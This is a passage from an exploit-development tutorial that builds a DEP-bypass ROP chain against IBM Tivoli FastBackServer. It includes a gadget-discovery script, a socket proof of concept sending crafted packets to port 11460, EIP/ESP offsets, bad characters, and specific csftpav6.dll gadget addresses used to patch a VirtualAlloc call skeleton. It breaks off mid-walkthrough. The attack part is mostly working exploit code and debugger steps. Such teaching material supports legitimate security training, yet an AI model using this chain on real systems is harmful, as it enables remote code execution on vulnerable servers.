            count += 1
            fp.write("-"*86 + "\r\n")
            for instr in gadget:
                try:
                    fp.write(str(instr) + "\r\n")
                except UnicodeEncodeError:
                    print(str(repr(instr)))
    return count

if __name__ == '__main__':
    print("#"*63)
    print("# findrop.py pykd Gadget Discovery module #")
    print("#"*63)
    count = 0
    try:
        modname = sys.argv[1].strip()
    except IndexError:
        log("Syntax: findrop.py modulename [MAX_GADGET_SIZE]")
        log("Example: findrop.py ntdll 8")
        sys.exit()
    try:
        MAX_GADGET_SIZE = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError:
        log("MAX_GADGET_SIZE needs to be an integer")
        sys.exit()

    mod = getModule(modname)
    if mod:
        pages = findExecPages(mod)
        retn  = findRetn(pages)
        if retn:
            fp = open("C:/tools/pykd/findrop_output.txt", "w")
            fp.write(HEADER)
            start = time.time()
            log("Gadget discovery started...")
            for ret in retn:
                count += disasmGadget(ret, mod, fp)
            fp.close()
            end = time.time()
            log("Gadget discovery ended (%d secs)." % int(end-start))
            log("Found %d gadgets in %s." % (count, mod.name()))
        else:
            log("ret instructions not found!")
```

The BAD instruction list is critical to understand. Each blacklisted instruction
category serves a purpose: privileged instructions (`clts`, `hlt`, `lmsw`, etc.)
would cause a `#GP` fault in user mode; I/O instructions (`in`, `out`) are also
privileged; flow-control instructions (`call`, `jmp`, all conditional jumps)
would break the sequential RET-to-RET chaining that makes ROP work; `leave`
modifies `ESP` in unpredictable ways; and `???` represents opcodes that the
disassembler could not decode.



*Figure 6.15 - The complete Pykd gadget discovery tool with BAD instruction
blacklisting, formatted output to file, and timing information.*

Running the complete tool against FastBackServer produces results:

```
!py C:\scripts\findrop.py FastBackServer
```

The tool discovers over 30,000 gadgets (including duplicates, since different
starting offsets before the same `RET` can produce overlapping gadgets). The
results are saved to a text file for manual review.



*Figure 6.16 - The complete gadget discovery run found over 30,000 gadgets in
FastBackServer. The count includes duplicates from overlapping backwards scans.
Results are saved to findrop_output.txt for review.*

Let us look at the output file to see what the discovered gadgets look like:



*Figure 6.17 - A sample of the discovered gadgets from the output file. Each
gadget is a sequence of instructions ending in RET, formatted with the address
and disassembly.*

### 6.7 Automated Discovery with rp++

While our Pykd script gives us full control over the discovery process and
teaches us how gadget scanning works internally, we can also use pre-built tools
for faster, more efficient scanning. **rp++** is a dedicated ROP gadget finder
that processes PE files directly without needing a debugger session. It is
significantly faster than our Python-based approach and handles deduplication
automatically.

```
rp-win-x86.exe -f FastBackServer.exe -r 5 > rop.txt
```

The `-f` flag specifies the input file, and `-r 5` limits gadgets to a maximum
of 5 instructions (including the `RET`). The output is redirected to a text
file for review.



*Figure 6.18 - Running rp++ against FastBackServer.exe to discover ROP gadgets.
The -r 5 flag limits results to gadgets with at most 5 instructions.*

The rp++ output is cleaner and more organized than our Pykd output, with
deduplication and consistent formatting:



*Figure 6.19 - The rp++ output showing discovered gadgets with addresses,
instructions, and the number of found unique gadgets. rp++ is faster and
produces cleaner output than our manual Pykd approach.*

Both tools are valuable. Pykd teaches you how gadget discovery works at a
fundamental level and gives you the flexibility to add custom filters or output
formats. rp++ gives you fast, reliable results for practical exploitation.
Professional exploit developers typically use rp++ (or similar tools like
ROPgadget, ropper) for the initial scan and then verify specific gadgets in the
debugger.

---

## 7. Locating the Overflow - EIP and ESP Offsets

### 7.1 Generating the Pattern

Before we can build any ROP chain, we need to know exactly where in our input
buffer we control `EIP` and where the stack pointer `ESP` ends up. We generate
a cyclic pattern using Metasploit's `msf-pattern_create` tool:

```
msf-pattern_create -l 0x200
```

This generates a 512-byte string where every 4-byte subsequence is unique. When
this pattern overwrites `EIP`, we can look up the exact offset by examining the
value in `EIP` at the crash.



*Figure 7.1 - Generating a 0x200-byte cyclic pattern with msf-pattern_create.
Each 4-byte subsequence is unique, allowing us to determine the exact overflow
offset by reading the value in EIP at crash time.*

### 7.2 The Initial PoC

We write our initial proof-of-concept exploit that sends the cyclic pattern
inside a Tivoli FastBackServer packet structure. The packet format requires a
specific header with `psAgentCommand` fields including an opcode (`0x534`),
three sets of memcpy offset/size pairs, and then the payload in a format string
buffer.

```python
import socket
import sys
from struct import pack

buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x534)  # opcode
buf += pack("<i", 0x0)    # 1st memcpy: offset
buf += pack("<i", 0x500)  # 1st memcpy: size field
buf += pack("<i", 0x0)    # 2nd memcpy: offset
buf += pack("<i", 0x100)  # 2nd memcpy: size field
buf += pack("<i", 0x0)    # 3rd memcpy: offset
buf += pack("<i", 0x100)  # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)

pattern = b"Aa0Aa1Aa2..."  # cyclic pattern here
formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" \
    % (pattern,0,0,0,0)
buf += formatString
buf = pack(">i", len(buf)-4) + buf  # checksum

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((server, 11460))
s.send(buf)
s.close()
```

The packet structure is important to understand. The `psAgentCommand` header
consists of 12 bytes of padding (`0x41`), followed by the opcode `0x534`, three
memcpy descriptor pairs (offset + size), 8 bytes of padding, and then the format
string buffer that contains our payload. The format string is constructed using
Python's `%s` formatter, which inserts our pattern (or later, our exploit) into
the message. The entire buffer is prepended with a 4-byte big-endian length
field (the checksum). This header format is dictated by the Tivoli protocol
and must be exact for the packet to reach the vulnerable code path.



*Figure 7.2 - The initial proof-of-concept exploit script that sends a cyclic
pattern to FastBackServer on TCP port 11460. The packet format matches the
Tivoli psAgentCommand protocol structure.*

### 7.3 Finding the EIP Offset

After sending the packet and triggering the crash, we examine `EIP` in WinDbg.
The value `0x41326a41` is visible in the `EIP` register, which corresponds to
bytes from our cyclic pattern.



*Figure 7.3 - The crash shows EIP = 0x41326a41, a value from our cyclic
pattern. We can now calculate the exact offset where EIP is overwritten in
our buffer.*

We use `msf-pattern_offset` to find the exact offset of this value in our
pattern:

```
msf-pattern_offset -l 0x200 -q 41326a41
```

The tool reports that the EIP overwrite occurs at offset **276** bytes into
our payload buffer. This means the first 276 bytes are filler, and bytes
277-280 overwrite `EIP`.



*Figure 7.4 - msf-pattern_offset confirms that EIP is overwritten at exactly
276 bytes (0x114) into the format string buffer. Bytes 277-280 control EIP.*

### 7.4 Finding the ESP Offset

We also need to know where `ESP` points after the crash, because that is where
our ROP chain will begin executing. We examine the top of the stack:

```
dd esp L1
```

The value at `ESP` is `0x6a41336a`, another value from our cyclic pattern.



*Figure 7.5 - The value at ESP after the crash is 0x6a41336a, from our cyclic
pattern. This tells us which part of our buffer ESP points to.*

Looking up this value gives us the ESP offset:

```
msf-pattern_offset -l 0x200 -q 6a41336a
```

The ESP offset is **280** bytes, which is exactly 4 bytes after the EIP
overwrite. This makes perfect sense - in a standard stack frame, the saved
return address (which overwrites `EIP`) is followed immediately by the caller's
stack data (which is where `ESP` points after the `RET` instruction pops the
return address).


*Figure 7.6 - ESP points to offset 280 (0x118) in our buffer, exactly 4 bytes
after the EIP overwrite at 276. Everything from offset 280 onward is our ROP
chain space.*

### 7.5 Validating the Offsets

We validate our offset calculations by sending a buffer with distinct marker
values at the exact offsets we calculated:

```python
offset = b"A" * 276
eip = b"B" * 4
rop = b"C" * (0x400 - 276 - 4)
```

If our offsets are correct, `EIP` should be `0x42424242` (BBBB) and `ESP`
should point to our `C` bytes.



*Figure 7.7 - The validation PoC uses 276 bytes of A's as filler, 4 bytes of
B's for EIP, and C's for the remaining buffer. If our offsets are correct,
EIP = 0x42424242.*

Running the validation PoC confirms our calculations are perfect:



*Figure 7.8 - The crash shows EIP = 0x42424242 (BBBB), confirming our EIP
offset of 276 bytes is exactly correct. We have precise control over the
instruction pointer.*

We also verify that `ESP` points to our controlled buffer:

```
dd esp L1
```



*Figure 7.9 - ESP points to our C buffer (0x43434343), confirming the ESP
offset of 280 bytes. The bad characters for this vulnerability are: 0x00,
0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x20.*

> **Bad characters identified:** `0x00` (null), `0x09` (tab), `0x0A` (newline),
> `0x0B` (vertical tab), `0x0C` (form feed), `0x0D` (carriage return), `0x20`
> (space). These bytes cannot appear anywhere in our gadget addresses, constants,
> or shellcode. Every value we use must be checked against this list.
{: .prompt-warning }

---

## 8. Selecting the Right Module for Gadgets

### 8.1 Module Requirements

For our ROP chain to work reliably, we need to find gadgets in a module that
meets specific requirements:

1. **No ASLR** - The module's base address must be fixed so our gadget addresses
   are predictable across reboots.
2. **No DEP** - Not strictly required for gadget source (gadgets are in
   executable pages regardless), but it helps to have a module without other
   complications.
3. **No null bytes in base address** - Since `0x00` is a bad character, the
   module's base address cannot contain null bytes (e.g., `0x00400000` would
   be unusable because every address would start with `0x00`).
4. **Large enough** - The module needs enough code pages to provide the variety
   of gadgets we need for our chain.

We load Narly and scan for suitable modules:

```
.load narly
!nmod
```



*Figure 8.1 - The Narly !nmod output for FastBackServer's loaded modules. We
need a module without ASLR, without null bytes in its base address, and with
enough code to provide useful gadgets.*

After examining the output, we identify **csftpav6.dll** as our ideal gadget
source. Its base address is `0x50500000` - no null bytes, no bad characters.
It lacks both ASLR and DEP (compiled without these protections). And it is
large enough to contain a rich variety of gadgets.

### 8.2 Extracting Gadgets from csftpav6.dll

We run rp++ against csftpav6.dll to extract all available gadgets:

```
rp-win-x86.exe -f csftpav6.dll -r 5 > rop.txt
```



*Figure 8.2 - Running rp++ against csftpav6.dll to extract ROP gadgets. This
module at base 0x50500000 has no ASLR, no null bytes, and is our source for
all gadget addresses.*

The output reveals a rich gadget set:



*Figure 8.3 - The rp++ output showing discovered gadgets in csftpav6.dll. We
have a large selection of gadgets to choose from for building our ROP chain.*

From this output, we will carefully select 13 specific gadgets that together
allow us to: capture the stack pointer, navigate to our function skeleton,
resolve the VirtualAlloc address through the IAT, patch each argument into the
skeleton, and pivot ESP to invoke VirtualAlloc with our shellcode as the return
address.

---

## 9. The VirtualAlloc Strategy

### 9.1 VirtualAlloc Function Prototype

Before building our ROP chain, we need to understand exactly what we are trying
to achieve. The `VirtualAlloc` Win32 API has the following prototype:

```c
LPVOID VirtualAlloc(
    LPVOID lpAddress,       // address of region to allocate
    SIZE_T dwSize,          // size of region
    DWORD  flAllocationType, // type of allocation
    DWORD  flProtect        // memory protection
);
```

Our goal is to call VirtualAlloc with these specific arguments:
- **lpAddress** = address of our shellcode (so VirtualAlloc re-commits that page)
- **dwSize** = `0x1` (minimum size, one byte is enough to cover the page)
- **flAllocationType** = `0x1000` (`MEM_COMMIT`)
- **flProtect** = `0x40` (`PAGE_EXECUTE_READWRITE`)

When called with `MEM_COMMIT` on an already-committed page, VirtualAlloc
re-commits it with the new protection specified by `flProtect`. This effectively
flips the NX bit on the page, changing it from `PAGE_READWRITE` (data, no
execute) to `PAGE_EXECUTE_READWRITE` (data + execute). After this call, the CPU
will happily execute instructions from that page.

The diagram below shows the VirtualAlloc parameter layout and what each argument
does in the context of our DEP bypass:



*Figure 9.1 - The VirtualAlloc parameters we need to set for our DEP bypass.
lpAddress points to our shellcode, dwSize is 1 (minimum), flAllocationType is
MEM_COMMIT (0x1000), and flProtect is PAGE_EXECUTE_READWRITE (0x40).*

Understanding each parameter's role is essential for debugging the ROP chain
later. If any single argument is wrong, VirtualAlloc will either fail silently
(returning NULL) or the resulting page permissions will not include execute,
and our shellcode will still fault.



*Figure 9.2 - The VirtualAlloc function prototype from the Windows API
documentation, showing the four parameters we need to provide through our
ROP chain.*

### 9.2 The Function Skeleton Concept

Since we cannot call VirtualAlloc directly (we are in a ROP chain, not in
normal code), we use a technique called a **function skeleton**. The idea is:

1. Place a fake STDCALL function call frame on the stack **before** the ROP
   chain runs, with dummy placeholder values for each argument.
2. Use ROP gadgets to overwrite each dummy value with the correct argument.
3. After all arguments are patched, pivot `ESP` to point at the skeleton.
4. The next `RET` instruction pops the VirtualAlloc address into `EIP`,
   and Windows sees a perfectly normal function call with the arguments laid
   out above it on the stack.

The skeleton layout on the stack must be:

| Stack Offset | Value | Purpose |
|---|---|---|
| `skeleton[0]` | VirtualAlloc address | Function to call |
| `skeleton[1]` | Shellcode address | Return address after VirtualAlloc |
| `skeleton[2]` | lpAddress (shellcode) | Arg 1 |
| `skeleton[3]` | dwSize (0x1) | Arg 2 |
| `skeleton[4]` | flAllocationType (0x1000) | Arg 3 |
| `skeleton[5]` | flProtect (0x40) | Arg 4 |

When `ESP` points to `skeleton[0]` and the CPU executes `RET`, it pops
`skeleton[0]` (VirtualAlloc) into `EIP`. VirtualAlloc then sees `skeleton[1]`
as its return address (where to go after VirtualAlloc finishes), `skeleton[2]`
through `skeleton[5]` as its four arguments. When VirtualAlloc returns, `EIP`
becomes `skeleton[1]` - the address of our shellcode - which now lives on a
page with `PAGE_EXECUTE_READWRITE` permissions. The shellcode executes normally.

### 9.3 Placing the Skeleton

We update our PoC to place the function skeleton at the beginning of our
buffer, before the `A` filler:

```python
va  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
va += pack("<L", (0x46464646)) # dummy Shellcode Return Address
va += pack("<L", (0x47474747)) # dummy Shellcode Address (lpAddress)
va += pack("<L", (0x48484848)) # dummy dwSize
va += pack("<L", (0x49494949)) # dummy flAllocationType
va += pack("<L", (0x51515151)) # dummy flProtect

offset = b"A" * (276 - len(va))
eip = b"B" * 4
rop = b"C" * (0x400 - 276 - 4)
```

The skeleton is 24 bytes (6 × 4 bytes). It sits at the beginning of the
payload, before the 252 bytes of `A` filler that pad up to the EIP overwrite
at offset 276. This placement is deliberate: the skeleton lives at a known
offset from `ESP` at crash time, which our ROP chain will calculate.



*Figure 9.3 - The updated PoC with the VirtualAlloc function skeleton placed
at the start of the buffer. The six DWORD dummy values will be overwritten by
our ROP chain with the correct VirtualAlloc arguments.*

After sending this PoC and examining the stack at the crash, we verify the
skeleton is correctly placed:

```
dd esp - 1C
```

The `ESP - 0x1C` offset is significant: `ESP` points 4 bytes past the EIP
overwrite (at offset 280), and the skeleton starts at the beginning of our
payload (276 - 24 = 252 bytes before EIP). The hex distance from `ESP` to the
start of the skeleton is `0x1C` (28 decimal = 24 skeleton bytes + 4 EIP bytes),
but we subtract because the skeleton is at a lower stack address.



*Figure 9.4 - The VirtualAlloc function skeleton is correctly placed on the
stack, visible at ESP - 0x1C. We can see our dummy values (0x45454545 through
0x51515151) laid out in the correct STDCALL order.*

The skeleton is in position. Now our ROP chain needs to: (1) locate the
skeleton's address, (2) resolve VirtualAlloc's real address from the IAT, (3)
patch each dummy value with the correct argument, and (4) pivot ESP to the
skeleton. Let us build this chain gadget by gadget.

The diagram below shows the complete layout of the full ROP chain in memory -
the skeleton at the start, the EIP overwrite in the middle, and the ROP gadget
chain after it:



*Figure 9.5 - The complete memory layout of our exploit. The VirtualAlloc
skeleton sits at the start of the buffer, followed by filler to reach the EIP
overwrite at offset 276, then the ROP gadget chain starting at offset 280.
The chain's job is to patch the skeleton's dummy values and then pivot ESP to
call VirtualAlloc.*

---

## 10. Building the ROP Chain - Gadget by Gadget

### 10.1 Gadget 1: Capturing ESP - push esp; push eax; pop edi; pop esi; ret

The very first thing our ROP chain needs is a copy of `ESP` at the time of the
crash. This value is our anchor - every subsequent calculation (finding the
skeleton, calculating the shellcode address) is relative to this captured
`ESP` value.

Our first gadget at address `0x50501110` does:

```nasm
push esp     ; push current stack pointer onto the stack
push eax     ; push EAX (whatever it contains) onto the stack
pop edi      ; pop EAX's value into EDI (we don't need this)
pop esi      ; pop ESP's value into ESI
ret          ; continue to next gadget
```

The `push esp` instruction saves the stack pointer. The `push eax` and
`pop edi` are side effects we tolerate - they move EAX's value into EDI, which
we do not care about right now. The critical operation is `pop esi`, which loads
the saved `ESP` value into `ESI`. After this gadget, `ESI` contains the address
that `ESP` had at the moment the gadget started executing. This is our reference
point for all skeleton and shellcode address calculations.

We set `EIP` to this gadget's address - it is the first gadget that executes
when the overflow occurs:

```python
eip = pack("<L", (0x50501110))  # push esp; push eax; pop edi; pop esi; ret
```



*Figure 10.1 - The first gadget we select: push esp; push eax; pop edi;
pop esi; ret at address 0x50501110 in csftpav6.dll. This captures the stack
pointer into ESI.*

We update the PoC and set a breakpoint on the gadget to trace its execution:



*Figure 10.2 - The PoC updated with the first ROP gadget at the EIP overwrite
position. When the overflow triggers, EIP will point to 0x50501110.*

```
bp 50501110
```



*Figure 10.3 - Breakpoint set at 0x50501110. When the overflow triggers, the
debugger will pause here so we can trace the gadget's execution.*

The breakpoint is hit and we see the first instruction about to execute:



*Figure 10.4 - The breakpoint hits at our first gadget. The push esp
instruction is about to execute, which will save the current stack pointer
onto the stack.*

We step through the `push esp` instruction:

```
p
```



*Figure 10.5 - After executing push esp, the current stack pointer value has
been pushed onto the stack. This saved value will become our reference point
for all subsequent calculations.*

We verify the ESP value is on the stack:

```
dd esp L1
```



*Figure 10.6 - The saved ESP value is visible on top of the stack. This is the
anchor address we will use to locate the function skeleton.*

Next, `push eax` executes:

```
p
```



*Figure 10.7 - After push eax, both the ESP value and the EAX value are on the
stack. The EAX value is irrelevant to us but must be handled by the pop edi.*

We can see both values on the stack:

```
dd esp L2
```



*Figure 10.8 - The stack now contains two values: the EAX value (on top) and
the original ESP value (below it). Pop edi will take EAX, and pop esi will
take ESP.*

Now `pop edi` removes the EAX value from the stack:

```
p
```



*Figure 10.9 - After pop edi, the EAX value has been moved into EDI. We verify
this by checking the EDI register.*

We verify EDI received the EAX value:

```
r edi
```



*Figure 10.10 - EDI now contains the value that was in EAX. This is a side
effect of our gadget that we do not need, but it is harmless.*

Finally, `pop esi` loads the saved ESP value:

```
p
```



*Figure 10.11 - After pop esi, the ESI register contains the saved ESP value
from the beginning of the gadget. ESI now points into our buffer on the stack.*

We verify ESI points to our buffer:

```
dd esi L1
```



*Figure 10.12 - Dereferencing ESI confirms it points to the beginning of our
controlled buffer. This is our reference point for the entire ROP chain.*

**Result:** ESI now contains the address of our buffer on the stack. This is
the foundation for everything that follows.

### 10.2 Gadget 2: ESI → EAX - mov eax, esi; pop esi; ret

We need to perform arithmetic on the captured ESP value to calculate the
skeleton's address. Arithmetic gadgets typically operate on `EAX` and `ECX`,
so we first need to copy `ESI` into `EAX`. Our gadget at `0x5050118e` does:

```nasm
mov eax, esi  ; copy ESI to EAX
pop esi       ; pop next stack value into ESI (consumed as junk)
ret           ; continue
```

The `pop esi` is a side effect - it consumes a DWORD from the stack that we
fill with a dummy value (`0x42424242`). After this gadget, `EAX` contains our
captured stack address.

```python
rop  = pack("<L", (0x5050118e))  # mov eax, esi; pop esi; ret
rop += pack("<L", (0x42424242))  # junk (consumed by pop esi)
```



*Figure 10.13 - The PoC with gadget 2 added. mov eax, esi copies the stack
reference into EAX, and pop esi consumes a junk DWORD.*

We set a breakpoint and trace the execution. We step through `mov eax, esi`:

```
bp 0x5050118e
```



*Figure 10.14 - Breakpoint set on gadget 2 at 0x5050118e.*

After sending the exploit and hitting the breakpoint:



*Figure 10.15 - The breakpoint hits at our second gadget. The mov eax, esi
instruction is about to copy the saved stack pointer from ESI to EAX.*

We monitor the registers before execution:



*Figure 10.16 - Register state before gadget 2 executes. ESI contains our
saved stack pointer value.*

After stepping through `mov eax, esi`:

```
p
```



*Figure 10.17 - After mov eax, esi: EAX now contains the stack reference value
that was in ESI. We can now perform arithmetic on EAX.*

After `pop esi`:



*Figure 10.18 - After pop esi: ESI now contains our junk value 0x42424242.
This is expected - we placed this value on the stack to be consumed by the
pop esi side effect.*

After the `ret` instruction:



*Figure 10.19 - After ret: execution continues to the next gadget in our
chain. EAX contains our stack reference, ready for arithmetic.*

### 10.3 Gadgets 3-4: Calculating the Skeleton Address

The function skeleton starts at offset `-0x1C` from the captured ESP value.
We need to subtract `0x1C` from `EAX` to get the skeleton's address. However,
`0x0000001C` contains null bytes - a bad character. Instead, we add the
negative equivalent `0xFFFFFFE4` (which is `-0x1C` in two's complement), and
that value contains no bad characters.

We use two gadgets: first, `pop ecx; ret` at `0x505115a3` to load `0xFFFFFFE4`
into `ECX`, then `add eax, ecx; ret` at `0x5051579a` to add `ECX` to `EAX`.

```python
rop += pack("<L", (0x505115a3))  # pop ecx; ret
rop += pack("<L", (0xffffffe4))  # -0x1C (negative to avoid null bytes)
rop += pack("<L", (0x5051579a))  # add eax, ecx; ret
```



*Figure 10.20 - Gadgets 3-4 added: pop ecx loads -0x1C (as 0xFFFFFFE4) into
ECX, then add eax, ecx adjusts EAX to point at the function skeleton.*

We set a breakpoint and verify the operation:



*Figure 10.21 - Breakpoint set on the pop ecx gadget at 0x505115a3.*

After sending the exploit and hitting the breakpoint:



*Figure 10.22 - The breakpoint hits at pop ecx. The next value on the stack
(0xFFFFFFE4) will be loaded into ECX.*

After stepping through `pop ecx`:

```
p
```



*Figure 10.23 - ECX now contains 0xFFFFFFE4, which is the two's complement
representation of -0x1C. Adding this to EAX will effectively subtract 0x1C.*

We continue to the `add eax, ecx` gadget:



*Figure 10.24 - Execution continues to the add eax, ecx gadget at 0x5051579a.*

After the addition:

```
p
```



*Figure 10.25 - After add eax, ecx: EAX has been adjusted by -0x1C. The value
in EAX should now point to the beginning of our function skeleton.*

We verify that EAX now points to the skeleton:

```
dd 0d40e300
```



*Figure 10.26 - Dereferencing the address in EAX shows our dummy VirtualAlloc
skeleton values (0x45454545, 0x46464646, etc.). The calculation is correct -
EAX points to the start of our function skeleton.*

**Result:** EAX now points to the beginning of the VirtualAlloc skeleton on
the stack.

### 10.4 Gadget 5: Save Skeleton Pointer - push eax; pop esi; ret

We need the skeleton address in `ESI` for subsequent write operations. The
gadget at `0x50537d5b` copies EAX to ESI via push/pop:

```python
rop += pack("<L", (0x50537d5b))  # push eax; pop esi; ret
```



*Figure 10.27 - Gadget 5 saves the skeleton pointer from EAX to ESI via
push eax; pop esi; ret.*

We set a breakpoint and verify:

```
bp 0x50537d5b
```



*Figure 10.28 - Breakpoint set on the push eax; pop esi; ret gadget.*

After hitting the breakpoint:



*Figure 10.29 - The breakpoint hits at push eax. EAX contains the skeleton
address that will be transferred to ESI.*

After stepping through `push eax`:

```
p
```



*Figure 10.30 - After push eax: the skeleton address is now on top of the
stack, ready to be popped into ESI.*

We verify the value is on the stack:

```
dd esp L1
```



*Figure 10.31 - The skeleton address is visible on top of the stack after
push eax.*

After `pop esi`:

```
p
```



*Figure 10.32 - After pop esi: ESI now contains the skeleton address. ESI
is our write pointer - we will use it to patch each skeleton slot.*

**Result:** ESI now points to `skeleton[0]` - the VirtualAlloc address slot.

### 10.5 Gadgets 6-10: Resolving VirtualAlloc from the IAT

This is the most complex part of the chain. We need to:
1. Load the IAT address of VirtualAlloc into EAX
2. Dereference it to get the actual function address
3. Write that address into `skeleton[0]`

First, we open csftpav6.dll in IDA Pro and check the Imports tab to confirm
that VirtualAlloc is imported by this module. If the function is in the import
table, we can use its IAT entry to resolve the runtime address dynamically.



*Figure 10.33 - IDA Pro's Imports tab for csftpav6.dll showing that
VirtualAlloc is imported from kernel32.dll. The IAT entry address is fixed
within this module, even though the actual function address in kernel32.dll
changes on each reboot due to ASLR.*

The IAT entry address is confirmed: the function pointer for VirtualAlloc lives
at a fixed offset within csftpav6.dll. Since this module has no ASLR, the IAT
entry address is predictable across reboots. The value stored at that address
(the actual VirtualAlloc function pointer) changes due to kernel32.dll's ASLR,
but the IAT entry itself is always at the same location. From IDA Pro, we
determine the IAT entry is at address `0x5054A220`:



*Figure 10.34 - IDA Pro showing that VirtualAlloc is in csftpav6.dll's import
table. The IAT entry at 0x5054A220 contains a pointer to the actual
VirtualAlloc function in kernel32.dll. However, note that the address ends in
0x20, which is a bad character (space).*

There is a problem: the IAT address `0x5054A220` ends with `0x20`, which is
one of our bad characters. We cannot embed `0x20` directly in our exploit
buffer. The solution is to use `0x5054A221` (IAT + 1) instead, and then
subtract 1 with a gadget. This is a common trick when gadget addresses or
constants contain bad characters.

```python
rop += pack("<L", (0x5053a0f5))  # pop eax; ret
rop += pack("<L", (0x5054A221))  # VirtualAlloc IAT + 1 (avoids 0x20 bad char)
rop += pack("<L", (0x505115A3))  # pop ecx; ret
rop += pack("<L", (0xffffffff))  # -1 into ecx
rop += pack("<L", (0x5051579a))  # add eax, ecx; ret (EAX = IAT + 1 + (-1) = IAT)
rop += pack("<L", (0x5051f278))  # mov eax, dword [eax]; ret (dereference IAT)
```

First, `pop eax` loads the IAT address + 1 into EAX. Then `pop ecx` loads -1
into ECX. Then `add eax, ecx` subtracts 1 from EAX, giving us the correct IAT
address. Finally, `mov eax, dword [eax]` dereferences the IAT entry, loading
the actual VirtualAlloc function address into EAX.



*Figure 10.34 - The IAT resolution gadget chain: load IAT+1, subtract 1 to
avoid the bad char, then dereference to get VirtualAlloc's actual address.*

We trace through each gadget. After `pop eax`:

```
bp 0x5053a0f5
```



*Figure 10.35 - Breakpoint set on pop eax to trace IAT resolution.*

After stepping through `pop eax`:

```
p
```



*Figure 10.36 - EAX contains 0x5054A221, which is the VirtualAlloc IAT entry
address plus 1. We added 1 to avoid the bad character 0x20.*

Continuing to `pop ecx`:



*Figure 10.37 - Execution continues to pop ecx, which will load -1 (0xFFFFFFFF)
into ECX.*

After `pop ecx`:

```
p
```



*Figure 10.38 - ECX now contains 0xFFFFFFFF (-1). Adding this to EAX will
correct the IAT address from 0x5054A221 back to 0x5054A220.*

Continuing to `add eax, ecx`:



*Figure 10.39 - Execution reaches add eax, ecx, which will fix the IAT address.*

After the addition:

```
p
```



*Figure 10.40 - EAX now contains 0x5054A220, the correct IAT entry for
VirtualAlloc. The bad character has been avoided through arithmetic.*

Continuing to the dereference gadget:



*Figure 10.41 - Execution reaches mov eax, dword [eax], which will read the
actual VirtualAlloc function pointer from the IAT.*

After dereferencing:

```
p
```



*Figure 10.42 - EAX now contains the actual address of VirtualAlloc in
kernel32.dll. This is the runtime address that was resolved by the PE loader
and stored in the IAT. This address changes on every reboot due to ASLR on
kernel32.dll, but the IAT entry address is always 0x5054A220.*

**Result:** EAX contains the real VirtualAlloc address, resolved at runtime
through the IAT.

### 10.6 Gadget 11: Writing VirtualAlloc to the Skeleton

Now we write the VirtualAlloc address from EAX into the skeleton. The gadget
at `0x5051cbb6` does `mov dword [esi], eax; ret` - it writes the 4-byte value
in EAX to the memory address pointed to by ESI. Since ESI points to
`skeleton[0]`, this overwrites our `0x45454545` dummy with the real VirtualAlloc
address.

```python
rop += pack("<L", (0x5051cbb6))  # mov dword [esi], eax; ret
```



*Figure 10.43 - The write gadget mov dword [esi], eax writes the VirtualAlloc
address into skeleton[0], replacing the dummy value 0x45454545.*

We set a breakpoint and verify:

```
bp 0x5051cbb6
```



*Figure 10.44 - Breakpoint set on the write gadget at 0x5051cbb6.*

After hitting the breakpoint and stepping through:



*Figure 10.45 - The breakpoint hits at mov dword [esi], eax. ESI points to the
skeleton and EAX contains the VirtualAlloc address.*

We verify that the skeleton now contains the real VirtualAlloc address:

```
dds esi L1
```



*Figure 10.46 - After the write, skeleton[0] now contains the real VirtualAlloc
function address instead of the dummy 0x45454545. The first slot is patched.*

**Result:** `skeleton[0]` now holds the real VirtualAlloc address.

### 10.7 Gadgets 12-15: Advancing ESI with INC ESI

Now we need to advance ESI by 4 bytes to point at `skeleton[1]` (the return
address slot). There is no clean `add esi, 4` gadget available, so we use
`inc esi; add al, 0x2B; ret` at `0x50522fa7` four times. The `add al, 0x2B`
side effect modifies the low byte of EAX, which we will handle later - it does
not affect our skeleton patching.

```python
rop += pack("<L", (0x50522fa7))  # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7))  # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7))  # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7))  # inc esi; add al, 0x2B; ret
```



*Figure 10.47 - Four INC ESI gadgets advance ESI by 4 bytes to skeleton[1].
The add al, 0x2B side effect modifies EAX's low byte but is harmless for our
current purpose.*

We set a breakpoint and verify:

```
bp 0x50522fa7
```



*Figure 10.48 - Breakpoint set on the inc esi gadget at 0x50522fa7.*

After hitting the breakpoint and continuing through the four INC ESI calls:



*Figure 10.49 - The breakpoint hits at the first inc esi gadget.*

After stepping through:

```
p
```



*Figure 10.50 - After executing the four inc esi gadgets, ESI has been
incremented by 4 bytes.*

We verify ESI now points to `skeleton[1]`:

```
dd esi L1
```

![ESI points to skeleton[1]](../images/dep-102.png)

*Figure 10.51 - ESI now points to skeleton[1], which contains the dummy return
address 0x46464646. This is the slot where we need to write the shellcode
address.*

### 10.8 Patching the Shellcode Return Address and lpAddress

The return address (`skeleton[1]`) and lpAddress (`skeleton[2]`) both need to
point to our shellcode. Since we do not know the exact shellcode location yet
(it depends on the final exploit length), we calculate it dynamically as an
offset from the current ESI value.

We save ESI to EAX, then subtract a calculated negative offset to compute the
shellcode address. The offset `-0x210` reaches from the current skeleton
position to the shellcode location in our buffer. We also patch `skeleton[2]`
(lpAddress) with a similar calculation using offset `-0x20C`.

```python
rop += pack("<L", (0x5050118e))  # mov eax, esi; pop esi; ret
rop += pack("<L", (0x42424242))  # junk
rop += pack("<L", (0x50537d5b))  # push eax; pop esi; ret
rop += pack("<L", (0x505115A3))  # pop ecx; ret
rop += pack("<L", (0xfffffdf0))  # -0x210 into ecx
rop += pack("<L", (0x50533bf4))  # sub eax, ecx; ret
rop += pack("<L", (0x5051cbb6))  # mov dword [esi], eax; ret
```

The `sub eax, ecx` gadget at `0x50533bf4` subtracts ECX from EAX. Since ECX
contains a negative number, this effectively adds the absolute value, computing
the shellcode address forward in the buffer.



*Figure 10.52 - The shellcode address calculation chain: save ESI to EAX,
restore ESI for writing, calculate shellcode address by subtracting a negative
offset, and write it to the skeleton.*

We trace through these gadgets:

```
bp 0x5050118e
```



*Figure 10.53 - Breakpoint set for tracing the shellcode address calculation.*

After `mov eax, esi`:



